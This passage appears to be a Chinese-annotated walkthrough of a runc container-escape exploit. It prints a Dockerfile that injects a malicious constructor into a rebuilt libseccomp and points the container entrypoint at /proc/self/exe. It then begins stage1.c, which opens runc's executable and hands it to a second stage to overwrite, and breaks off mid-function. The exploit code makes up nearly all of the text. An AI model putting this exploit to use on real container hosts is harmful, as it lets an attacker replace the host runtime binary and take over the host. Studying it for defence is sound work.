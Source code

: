
```
$ cat Dockerfile
FROM ubuntu:18.04
# 继承ubuntu:18.04 image
RUN set -e -x ;\
    sed -i 's,# deb-src,deb-src,' /etc/apt/sources.list ;\
    apt -y update ;\
    apt-get -y install build-essential ;\
    cd /root ;\
    apt-get -y build-dep libseccomp ;\
    apt-get source libseccomp
    
ADD stage1.c /root/stage1.c
RUN set -e -x ;\
    cd /root/libseccomp-* ;\
    cat /root/stage1.c >> src/api.c ;\
    DEB_BUILD_OPTIONS=nocheck dpkg-buildpackage -b -uc -us ;\
    dpkg -i /root/*.deb
# libseccomp是runc加载的一个动态库
# 原Poc这里是cd /root/libseccomp-2.3.1, 但是apt-get source libseccomp会安装最新的版本，所以这个版本号需要修改
# 这几步是下载libseccomp的源码包，修改源码的src/api.c文件，追加写入了stage1.c的内容(给api.c增加了一个构造函数，在它的main函数之前执行)，将修改的libseccomp构建成dep包并安装

ADD stage2.c /root/stage2.c
RUN set -e -x ;\
    cd /root ;\
    gcc stage2.c -o /stage2
# 编译stage2.c，等待被stage1加载并执行

ENTRYPOINT [ "/entrypoint" ]


RUN set -e -x ;\
    ln -s /proc/self/exe /entrypoint
# 把/proc/self/exe设置为容器的entrypoint，让runc运行容器时执行/proc/self/exe
# 即在容器iamge中执行runc进程，进而加载恶意构造的动态库，执行后面的exp代码(stage1.c stage2.c, 完成对runc可执行文件的修改)
```


```
$ cat stage1.

#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>


__attribute__ ((constructor)) void foo(void)
{
    int fd = open("/proc/self/exe", O_RDONLY);
    if (fd == -1 ) {
        printf("HAX: can't open /proc/self/exe\n");
        return;
    }
    printf("HAX: fd is %d\n", fd);
    char *argv2[3];
    argv2[0] = strdup("/stage2");
    char buf[128];
    snprintf(buf, 128, "/proc/self/fd/%d", fd);
    argv2[1] = buf;
    argv2[2] = 0;
    execve("/stage2", argv2, NULL);
```